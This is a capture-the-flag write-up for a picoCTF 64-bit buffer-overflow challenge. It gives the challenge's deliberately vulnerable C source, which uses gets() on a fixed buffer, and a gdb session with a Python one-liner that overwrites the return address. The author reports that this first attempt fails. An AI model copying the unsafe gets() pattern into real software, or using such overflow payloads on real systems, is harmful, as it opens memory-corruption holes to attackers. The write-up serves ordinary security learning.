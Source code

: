 It is solvable with the same steps for [NewOverFlow1](https://github.com/alshaboti/CTFs/blob/master/picoCTF2019/NewOverFlow1-x64.MD),
as the flag function exists we can directly print the flag as we did in NewOverFlow1.

This challenge suppose to have no flag funciton, then we will have to print it through win_fun.
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

bool win1 = false;
bool win2 = false;

void win_fn1(unsigned int arg_check) {
  if (arg_check == 0xDEADBEEF) {
    win1 = true;
  }
}

void win_fn2(unsigned int arg_check1, unsigned int arg_check2, unsigned int arg_check3) {
  if (win1 && \
      arg_check1 == 0xBAADCAFE && \
      arg_check2 == 0xCAFEBABE && \
      arg_check3 == 0xABADBABE) {
    win2 = true;
  }
}

void win_fn() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  if (win1 && win2) {
    printf("%s", flag);
    return;
  }
  else {
    printf("Nope, not quite...\n");
  }


  

}

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("'flag.txt' missing in the current directory!\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Can you match these numbers?");
  vuln();
  return 0;
}

```

# Attempt1:
I tried to overwrite `win` and `win2` variables with `1` (i.e. true) then jump to `win_fun`, but for some reason it shows `'flag.txt' missing in the current directory!`

```
<get win_fn address>
$gdb vuln
(gdb) b vuln
(gdb) r
(gdb)disass win_fn
0x00000000004007bf
(gdb)info add win_fn
0x00000000004007be

< break just after gets at vuln>
(gdb) disass vuln
0x00000000004008cb
(gbd) b *0x00000000004008cb
(gdb) r <<< $(python -c 'import struct; print("A"*72+struct.pack("<I",0x00000000004007be) )' )




<get win1 and win2 address then overwite them>
(gdb)p (int) win1
0
(gdb)info add win1
0x601079
(gdb)info add win2
0x60107a
(gdb) set {char}0x601079=1
(gdb) set {char}0x60107a=1

<Now continue>
(gdb) c
Continuing.
'flag.txt' missing in the current directory!
[Inferior 1 (process 400746) exited normally]

#not sure why we get this!!!!
```
